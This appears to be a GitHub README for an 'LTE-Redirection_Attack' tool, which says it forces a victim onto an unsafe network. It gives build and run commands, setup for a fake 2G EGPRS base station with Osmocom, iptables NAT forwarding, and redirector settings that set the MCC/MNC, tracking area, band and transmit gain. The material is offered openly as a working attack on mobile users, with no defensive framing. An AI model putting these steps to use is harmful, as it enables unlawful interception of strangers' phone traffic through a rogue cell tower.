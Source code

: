 # LTE-Redirection_Attack
Force target victim to unsafe network

## Build

```bash
sudo ./build.sh
```


## Run

```bash
sudo ./run.sh
```

2G EGPRS Fake base Station :

Change if not in osmocom terminal osmo-bsc.cfg remote ip 192.168.1.23 by your internet interface : remote ip 192.168.X.X
Change in osmo-sgsn.cfg bind udp local, listen 192.168.1.23 by yours


In Osmocom Popped Terminal (change MCC//MNC accordingly in osmo-bsc.cfg osmo-bsc.cfg)

```bash
./tun.sh
./osmo-all.sh start
osmo-trx-uhd
```

Forward your ip in host terminal:
```bash
bash reset_iptables.sh
./srsepc_if_masq.sh your_interface
iptables -A POSTROUTING -t nat -s 176.16.32.0/20 ! -d 176.32.16.0/20 -j MASQUERADE
./srsepc_if_masq.sh your_interface
```


LTE Node redirector

```bash
write mcc (replace)
write mnc (relace)
wirte tracking_area_code (replace)
write mcc (replace)
write mnc (replace)
write band (replace)
write dl_earfcn (replace)
write tx_gain 80
write rx_gain 30
start
``` 

